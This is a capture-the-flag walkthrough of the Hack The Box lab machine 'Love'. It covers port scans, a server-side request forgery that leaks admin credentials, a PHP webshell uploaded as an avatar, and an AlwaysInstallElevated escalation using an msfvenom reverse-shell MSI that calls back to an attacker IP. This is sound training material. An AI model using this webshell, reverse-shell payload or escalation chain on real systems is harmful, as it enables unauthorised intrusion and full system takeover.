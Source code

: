 # Love

## Discovery

### Services

```
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|_  Supported Methods: GET
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-18T14:00:16
| Not valid after:  2022-01-18T14:00:16
| MD5:   bff0 1add 5048 afc8 b3cf 7140 6e68 5ff6
|_SHA-1: 83ed 29c4 70f6 4036 a6f4 2d4d 4cf6 18a2 e9e4 96c2
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings:
|   oracle-tns:
|_    Host '10.10.16.26' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
```

### Directories

```
/admin                (Status: 301) [Size: 337] [--> http://10.10.10.239/admin/]
/index.php            (Status: 200) [Size: 4388]
/preview.php          (Status: 302) [Size: 0] [--> index.php]
/includes             (Status: 301) [Size: 340] [--> http://10.10.10.239/includes/]
/plugins              (Status: 301) [Size: 339] [--> http://10.10.10.239/plugins/]
/login.php            (Status: 302) [Size: 0] [--> index.php]
/images               (Status: 301) [Size: 338] [--> http://10.10.10.239/images/]
/home.php             (Status: 302) [Size: 0] [--> index.php]
/examples             (Status: 503) [Size: 402]
/licenses             (Status: 403) [Size: 421]
/dist                 (Status: 301) [Size: 336] [--> http://10.10.10.239/dist/]
/tcpdf                (Status: 301) [Size: 337] [--> http://10.10.10.239/tcpdf/]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
```

The directories can be browsed: if we ever get to upload a payload, it may end
up in "/images".

## The file scanner

Let's add `staging.love.htb` to our hosts:

```bash
echo 10.10.10.239 staging.love.htb >> /etc/hosts
```

The subdomain [staging.love.htb](http://staging.love.htb) leads to a
file scanning web service.

The content of the file is escaped and included in the server php:

```php
<!--?php system(urldecode($_REQUEST['apehex']));-->
```

We can include local files like `http://127.0.0.1/index.php`. Trying all the
discovered urls, finally `http://127.0.0.1:5000` shows its true face:

> Vote Admin Creds admin: @LoveIsInTheAir!!!!

## Planting a backdoor

Changing a voter's avatar will upload a "photo" to the "images" subdirectory.

So we upload a basic webshell, for a change:

```php
<?php system($_REQUEST['apehex']);?>
```

We can get the user flag now:

```
apehex=whoami
apehex=type C:\Users\Phoebe\Desktop\user.txt
```

## Escalation

From there, let's directly look for an escalation vector, using `PrivescCheck`:

```powershell
powershell -ep bypass -c ". .\pec.ps1; Invoke-PrivescCheck -Extended"
```

```
+------+------------------------------------------------+------+
| TEST | CONFIG > AlwaysInstallElevated                 | VULN |
+------+------------------------------------------------+------+
| DESC | Check whether the 'AlwaysInstallElevated' registry    |
|      | keys are configured and enabled. If so any user might |
|      | be able to run arbitary MSI files with SYSTEM         |
|      | privileges.                                           |
+------+-------------------------------------------------------+
[*] Found 2 result(s).


Enabled               : True
Name                  : HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
AlwaysInstallElevated : 1

Enabled               : True
Name                  : HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
AlwaysInstallElevated : 1
```

This allows us to create a reverse shell with:

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.16.31 lport=1234 -f msi > www/evil.msi
```

And, after starting the handler in msf, this command will launch the shell:

```
msiexec /quiet /qn /i evil.msi
```
